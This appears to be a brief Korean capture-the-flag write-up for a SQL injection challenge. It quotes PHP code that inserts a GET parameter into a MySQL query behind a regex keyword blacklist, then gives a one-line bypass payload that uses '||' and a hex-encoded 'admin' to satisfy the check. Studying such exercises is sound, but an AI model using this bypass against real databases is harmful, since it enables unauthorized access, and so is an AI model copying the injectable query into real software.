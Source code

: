 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**

![](images/2022-01-03-11-36-53.png)


# **Write-Up**

view-source를 보면 여러 필터링이 되어 있다.

```php
... 생략 ...
<?php
  if($_GET['lv']){
    $db = dbconnect();
    if(preg_match("/select|or|and|\(|\)|limit|,|\/|order|cash| |\t|\'|\"/i",$_GET['lv'])) exit("no hack");
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall49 where lv={$_GET['lv']}"));
    echo $result[0] ;
    if($result[0]=="admin") solve(49);
  }
?>
... 생략 ...
```

    0||id=0x61646d696e

![](images/2022-01-03-11-39-36.png)